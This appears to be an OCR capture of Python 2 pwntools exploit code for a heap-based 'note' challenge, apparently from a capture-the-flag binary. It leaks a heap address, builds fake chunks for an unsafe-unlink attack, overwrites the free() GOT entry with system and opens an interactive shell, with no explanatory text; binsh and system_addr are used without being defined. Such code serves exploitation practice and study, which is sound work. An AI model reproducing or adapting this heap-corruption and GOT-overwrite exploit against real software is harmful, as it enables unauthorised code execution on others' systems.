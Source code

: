     add(0x80,"A"*0x80)
    add(0x80,'B'*0x80)
    add(0x80,'C'*0x80)
    add(0x80,'D'*0x80)
    delete(2)
    delete(0)
    
    add(0x8,'A'*8)
    gdb.attach(io)
    show(0)
    io.recvuntil("0. ")
    leak = io.recvuntil("\n")
    print type(leak)
    print leak
    print leak[8:-1].encode('hex')
    leak_heap= u64(leak[8:-1].ljust(8, '\x00'))
    print leak_heap


    delete(0)
    delete(1)
    delete(3)
    #gdb.attach(io)
    
    fd = leak_heap - 0x1808 
    bk = fd + 0x8
    
    add(0x80,'A'*0x80)
    add(0x80,'B'*0x80)
    add(0x80,'C'*0x80)
    
    delete(2)
    delete(1)
    delete(0)
    
    notelen = 0x80
    free_got = 0x602018


    payload  = ""
    payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
    payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
    payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)
    
    add(len(payload),payload)
    delete(1)
    
    payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh)
    payload2 += "A"* (notelen*3-len(payload2)) 
    
    edit(0,len(payload2),payload2)
    gdb.attach(io)
    edit(0,0x8,p64(system_addr))
    gdb.attach(io)
    delete(1)
    io.interactive()
